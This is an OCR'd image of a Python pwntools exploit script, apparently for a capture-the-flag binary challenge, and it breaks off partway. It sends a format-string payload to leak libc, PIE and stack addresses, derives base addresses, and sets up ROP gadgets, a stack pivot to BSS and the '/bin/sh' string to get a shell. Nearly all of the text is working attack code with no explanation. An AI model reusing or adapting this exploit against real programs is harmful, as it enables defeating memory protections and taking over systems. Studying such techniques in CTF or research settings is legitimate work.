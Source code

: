 ```python

def add_align_padding(payload: bytes, align: int = 16, call_adjust: int = 8, pad_byte: bytes =b"a", adjust: int = 0) -> bytes:
    payload_len = len(payload)
    misalign = (payload_len + call_adjust) % align
    padlen = (align - misalign) % align
    padlen = max(0, padlen + adjust)   # adjust ile oynayabilirsin (+/- değer)
    return pad_byte*padlen + payload

format_pyld  = b'a'*16
format_pyld += b'%c'*141+b'|%p' #32 -> 0xe008
format_pyld += b'|%p'*11#'%c'*3+'|%p'
format_pyld += b'\x00'

payload = flat(add_align_padding(format_pyld, adjust=1),
               )

print(f'payload length: {len(payload)}')

io.sendafter(b'again.\n', payload)

io.recvuntil(b'input is:')
io.recvline()
#info(f'Here: {io.recvline().strip().split(b"|")}')

leaks = io.recvline().strip().split(b'|')

libc_start_main_leak= int(leaks[13],16)
pie_leak            = int(leaks[3], 16)
rbp_leak            = int(leaks[2], 16)-0x50

libc.address= libc_start_main_leak - libc_start_main_offset
exe.address = pie_leak - main_406_offset

success(f'RBP Address   :{rbp_leak:#x}')
success(f'PIE Base Addr :{exe.address:#x}')
success(f'LIBC Base Addr:{libc.address:#x}')

###############################
##### overwrite part ##########
###############################

bss_offset = 0x4800
bss = exe.address + bss_offset
success(f'BSS Addr: {bss:#x}')

rop = ROP([exe, libc])
#### overwrite gadgets for shell ####

pop_rsp = rop.find_gadget(['pop rsp', 'ret'])[0]
ret     = rop.find_gadget(['ret'])[0]
binsh = next(libc.search(b'/bin/sh\0'))

def exec_fmt_again(payload: bytes) -> bytes:
    io.sendafter(b'again.\n', payload)


def exec_fmt_exit(payload: bytes) -> bytes:
    io.sendafter(b'exit.\n', payload)

#=========================================================#
#================ Execute func one more time =============#
#=========================================================#
```